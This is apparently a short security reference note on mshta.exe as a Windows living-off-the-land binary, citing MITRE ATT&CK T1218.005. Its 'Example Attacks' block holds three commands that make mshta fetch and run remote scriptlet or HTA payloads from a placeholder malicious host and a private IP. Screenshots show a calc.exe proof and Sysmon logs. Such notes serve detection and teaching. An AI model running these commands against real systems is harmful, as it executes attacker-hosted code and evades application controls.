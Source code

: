 # mshta.exe
## What is it?
*mshta.exe is a legitimate Windows utility used to execute Microsoft HTML Applications (.HTA files).*

## Example Attacks
```
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/file.sct")).Exec();close();

mshta.exe http://malicious[.]site/payload.hta

mshta.exe "javascript:a=GetObject('script:http://malicious[.]site/payload.sct')"
```

*calc.exe is spawned by mshta.exe:*

![image](https://github.com/user-attachments/assets/0165509e-73ad-4a73-a70f-f9be47a1eb37)

*sysmon logs for mshta establishing network connections:*

![image](https://github.com/user-attachments/assets/01232198-2016-4da8-a19c-902be70a96ee)

## References
- https://attack.mitre.org/techniques/T1218/005/
